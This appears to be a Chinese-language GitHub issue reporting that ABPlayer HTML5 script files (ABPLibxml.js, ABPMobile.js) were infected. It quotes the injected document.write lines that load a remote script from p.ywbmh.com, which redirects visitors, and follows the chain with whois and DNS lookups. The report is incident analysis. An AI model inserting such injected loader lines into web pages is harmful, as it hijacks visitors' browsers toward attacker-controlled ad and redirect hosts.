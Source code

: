 title

-----

表现： 
1. 点击链接
2. 被跳转到http://lishi.quzhao.com/js/tui/tui.html

正文：
1. “审查元素”: Screenshot.png
````
<script language="javascript" src="http://p.ywbmh.com:7777/pt/pt.php?src=p0007&amp;t=New%20Interface%20Test%20for%20ABPlayer&amp;ci=3029317831"></script>
````

2. “来源”: Screenshot001.png Screenshot002.png
被感染的代码
````
document.write("<script language='javascript' src='http://zhuogu.github.io/ABPlayerHTML5-bilibili-ver/build/js/ABPLibxml.js?_vv=20080808'></script>");
document.write("<script language='javascript' src='http://p.ywbmh.com:7777/pt/pt.php?src=p0007&t=" + encodeURIComponent(document.title) + "&ci=3029317831'></script>");
````
被感染的文件 ABPLibxml.js ABPMobile.js

3. 追查p.ywbmh.com
tp.php的内容
````
document.write("<script language='javascript' src='http://mystatic.le4le.com/pt/ad/bc_286_pop.js'></script>");
````
ywbmh.com的whois
[file]
p.ywbmh.com的dns
````
A	171.111.153.3
A	171.111.153.2
````

4. 追查le4le.com
whois
[file]
mystatic.le4le.com img.le4le.com的dns
````
A	106.184.7.46
A	106.187.97.70
````

5. 追查lishi.quzhao.com
whois
[file]
dns
````A	111.177.111.83````